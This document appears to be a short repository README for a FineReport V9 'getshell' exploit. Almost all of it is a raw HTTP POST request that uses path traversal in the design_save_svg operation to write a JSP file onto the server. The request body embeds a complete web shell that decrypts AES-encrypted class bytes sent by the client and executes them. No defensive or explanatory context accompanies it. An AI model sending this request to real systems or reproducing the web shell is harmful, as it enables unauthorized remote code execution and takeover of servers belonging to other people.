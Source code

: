 # V9getshell-FineReport-V9
帆软 V9getshell FineReport V9

POST  /WebReport/ReportServer?  
op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update  .jsp  HTTP/1.1
Host:  192.168.169.138:8080
User-Agent:  Mozilla/5.0  (Windows  NT  10.0;  Win64;  x64)  AppleWebKit/537.36  (KHTML,  like  Gecko)  
Chrome/81.0.4044.92  Safari/537.36
Connection:  close
Accept-Au:  0c42b2f264071be0507acea1876c74
Content-Type:  text/xml;charset=UTF-8
Content-Length:  675 
{"__CONTENT__":"<%@page  import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class  U  extends  
ClassLoader{U(ClassLoader  c){super(c);}public  Class  g(byte  []b){return  
super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null)  {String  
k=(\"\"+UUID.randomUUID()).replace(\"-
\",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher  
c=Cipher.getInstance(\"AES\");c.init(2,new  
SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new  
U(this.getClass().getClassLoader()).g(c.doFinal(new  
sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta  
nce().equals(pageContext);%>","__CHARSET__":"UTF-8"}

